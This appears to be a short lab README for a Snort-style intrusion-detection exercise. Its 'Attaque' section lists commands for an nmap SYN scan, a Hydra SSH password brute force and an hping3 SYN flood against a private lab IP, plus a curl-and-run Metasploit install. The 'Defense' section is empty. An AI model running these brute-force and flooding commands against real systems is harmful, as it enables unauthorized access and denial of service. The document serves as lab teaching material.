 # Attaque

apt install nmap hydra hping3 curl

# Metasploit
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall

nmap -sS 10.0.0.109

<p align="center">
    <img src="./NmapLoic.png" alt="snort" style="width: 800px;" />
</p>

hydra -l user -P /root/passwords.txt -t 4 -vV ssh://10.0.0.109

<p align="center">
    <img src="./HydraLoic.png" alt="snort" style="width: 800px;" />
</p>

hping3 -S -p 22 --flood 10.0.0.109

<p align="center">
    <img src="./HpingLoic.png" alt="snort" style="width: 800px;" />
</p>

# Defense
